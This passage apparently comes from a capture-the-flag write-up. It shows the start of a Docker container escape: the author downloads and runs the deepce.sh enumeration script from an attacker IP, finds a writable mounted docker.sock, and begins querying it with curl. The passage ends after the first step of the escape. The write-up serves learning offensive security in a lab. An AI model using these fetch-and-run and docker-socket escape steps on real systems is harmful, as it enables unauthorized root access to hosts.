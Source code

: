
### Step 3
Upload `deepce.sh` and enumerate the container. 
```bash
application@4dae106254bf:/dev/shm$ wget http://10.10.14.10/deepce.sh
application@4dae106254bf:/dev/shm$ chmod +x deepce.sh
application@4dae106254bf:/dev/shm$ bash deepce.sh
[... snip ...]
[+] Dangerous Capabilities .. Yes
cap_dac_override

[... snip ...]
====================================( Enumerating Mounts )====================================
[+] Docker sock mounted ....... Yes
The docker sock is writable, we should be able to enumerate docker, create containers 
and obtain root privs on the host machine
See https://stealthcopter.github.io/deepce/guides/docker-sock.md
```

Lets try to escape through the mounted docker socket.
```bash
application@4dae106254bf:/dev/shm$ find / -name docker.sock 2>/dev/null    
/app/docker.sock
```

Google for _"exploit docker sock"_ and the [first hit](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25) is a nice bash script to escape. Follow the script step-by-step.

(1) Find available images:
```bash
application@4dae106254bf:/dev/shm$ curl -s --unix-socket /app/docker.sock http://localhost/images/json
```